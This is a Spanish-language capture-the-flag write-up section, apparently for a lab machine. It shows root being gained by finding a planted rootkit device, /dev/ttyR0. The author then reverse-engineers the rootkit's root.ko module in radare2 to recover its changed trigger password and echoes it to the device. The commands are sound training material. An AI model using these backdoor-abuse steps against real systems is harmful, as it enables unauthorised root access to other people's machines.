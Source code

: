 ## Privilege Escalation {-}

### Rootear la maquina {-}

La escalada de privilegio aqui se hace utilizando el rootkit.


```bash
ls -l /dev/ttyR0
```

Aqui vemos que el rootkit esta installado. Continuamos con lo que la web del rootkit nos dice.

```bash
echo "g0tR0ot" > /dev/ttyR0; id
```

Pero no functionna. Pensamos aqui que los attackantes que an installado el rootkit cambiaron la contraseña.
Segun la web, la contraseña se encuentra en un fichero `root.ko` y mirandolo bien hay un directorio que se
llama `...` (Que cabron)

```bash
cd ...
binary
get root.ko
```

Una vez descargado y como es un binario, tratamos de ver lo que passa a mas bajo nivel con **radare2**

```bash
radare2 root.ko
aaa
afl
sym.root_write
pdf
```

```r
    knitr::include_graphics("images/radare2rootko.png")
```

Vemos esta parte interressante y probamos una vez mas con:

```bash
echo "g3tPr1v" > /dev/ttyR0; whoami

root
```

Ya estamos root y podemos ver la flag.